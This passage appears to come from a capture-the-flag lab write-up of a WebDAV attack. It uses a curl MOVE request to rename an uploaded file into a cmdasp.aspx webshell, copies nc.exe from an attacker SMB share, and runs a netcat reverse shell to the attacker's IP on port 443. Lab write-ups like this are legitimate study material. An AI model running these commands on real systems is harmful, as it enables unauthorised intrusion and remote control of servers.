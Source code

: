 Used Curl to ```MOVE``` a file and rename it. 

```zsh
curl -X MOVE -H 'Destination: http://10.10.10.15/cmdasp.aspx' http://10.10.10.15/try.txt
```
![Command Execution](./images/webshell.png)

Copied nc.exe to TEMP folder

```
copy  \\10.10.14.9\tools\nc.exe %TEMP%\nc.exe
```
![Copied nc.exe](./images/nc.png)

**KEY TAKEAWAYS: This can be used to upload nc.exe or anything to get a shell back by command execution**

Run this in the webshell and start a listener at 443

```
%TEMP%\nc.exe 10.10.14.9 443 -e cmd.exe 
```